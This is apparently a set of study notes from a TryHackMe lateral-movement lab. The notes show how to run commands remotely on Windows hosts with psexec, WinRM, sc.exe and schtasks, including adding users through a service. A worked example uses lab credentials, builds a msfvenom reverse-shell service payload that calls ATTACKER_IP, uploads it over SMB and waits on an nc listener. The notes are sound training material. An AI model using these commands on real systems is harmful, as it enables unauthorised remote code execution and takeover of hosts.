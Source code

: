 ## Psexec (psexesvc.exe)
- **Ports:** 445/TCP (SMB)
- **Required Group Memberships:** Administrators

Psexec has been the go-to method when needing to execute processes remotely for years. It allows an administrator user to run commands remotely on any PC where he has access. Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).

The way psexec works is as follows:
1. *Connect to Admin$ share and upload a service binary*. Psexec uses `psexesvc.exe` as the name.
2. *Connect to the service control manager* to create and run a service named *PSEXESVC* and associate the service binary with `C:\Windows\psexesvc.exe`.
3. *Create some named pipes* to handle *stdin/stdout/stderr*.

![](Pasted%20image%2020241116001403.png)

To run psexec, we only need to supply the required *administrator credentials* for the remote host and the *command we want to run.*
```shell-session
psexec64.exe \\{MACHINE_IP} -u {Administrator} -p {Mypass123} -i cmd.exe
```


## WinRM (winrs.exe)
- **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol *used to send Powershell commands to Windows hosts* remotely. Most *Windows Server installations have WinRM enabled by default*, making it an attractive attack vector.

To connect to a remote Powershell session from the command line, we can use the following command:
```shell-session
winrs.exe -u:{Administrator} -p:{Mypass123} -r:target cmd
```

We can achieve the same from Powershell, but to pass different credentials, we will need to create a *PSCredential* object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our *PSCredential* object, we can create an interactive session using the `Enter-PSSession` cmdlet:
```powershell
Enter-PSSession -Computername {TARGET} -Credential $credential
```

Powershell also includes the `Invoke-Command` cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a *PSCredential* object as well:
```powershell
Invoke-Command -Computername {TARGET} -Credential $credential -ScriptBlock {whoami}
```


## sc (sc.exe)
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCE/RPC)
    - 445/TCP (RPC over SMB Named Pipes)
    - 139/TCP (RPC over SMB Named Pipes)
- **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with *sc.exe*, a standard tool available in Windows. When using sc, it will try to connect to the *Service Control Manager (SVCCTL)* remote service program through *RPC* in several ways:

1. *A connection attempt will be made using RPC/DCE.* 
	   The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. 
		   The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
	 ![](Pasted%20image%2020241116004617.png)
2. *If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS)*.
	 ![](Pasted%20image%2020241116004902.png)

We can create and start a service named "THMservice" using the following commands:
```shell-session
sc.exe \\{TARGET} create {THMservice} binPath= "net user {munra Pass123} /add" start= auto
sc.exe \\{TARGET} start {THMservice}
```
The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:
```shell-session
sc.exe \\{TARGET} stop {THMservice}
sc.exe \\{TARGET} delete {THMservice}
```

## Scheduled Tasks
 You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:
 ```shell-session
schtasks /s {TARGET} /RU "SYSTEM" /create /tn {"THMtask1"} /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s {TARGET} /run /TN {"THMtask1"} 
```

We set the schedule type (`/sc`) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (`/sd`) and starting time (`/st`) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this *a blind attack.*

Finally, to delete the scheduled task, we can use the following command:
```shell-session
schtasks /S {TARGET} /TN {"THMtask1"} /DELETE /F
```


## Example
Connecting to *THMJMP2* using the credentials assigned:
`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:
	**User:** ZA.TRYHACKME.COM\t1_leonard.summers
	**Password:** EZpass4ever

We'll show how to use those credentials to move laterally to *THMIIS* using `sc.exe`. Feel free to try the other methods, as they all should work against *THMIIS*.
	![](Pasted%20image%2020241116021722.png)
While we have already shown how to use sc to create a user on a remote system (by using `net user`), we can also upload any binary we'd like to execute and associate it with the created service. However, if we try to run a reverse shell using this method, we will notice that the reverse shell disconnects immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately. Luckily for us, msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.

- generate the payload using msfvenom on our machine
```
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST={ATTACKER_IP} LPORT={4445} -o {myservice.exe}
```

-  use *t1_leonard.summers credentials* to upload our payload to the *ADMIN$* share of *THMIIS* using *smbclient* from our AttackBox:
```
user@AttackBox$ smbclient -c 'put {myservice.exe}' -U {user} -W ZA {'//thmiis.za.tryhackme.com/admin$/'} {password}
```

- starting a nc listener on specified port:
```shell-session
user@AttackBox$ nc -nvlp 4445
```

- create&start a new service remotely by using sc, associating it with our uploaded binary on THMJMP2: Command Prompt (As t1_leonard.summers):
```shell-session
C:\> sc.exe \\thmiis.za.tryhackme.com create {THMservice-3249} binPath= "%windir%\{myservice.exe}" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start {THMservice-3249}
```

- receive connection on attacking machine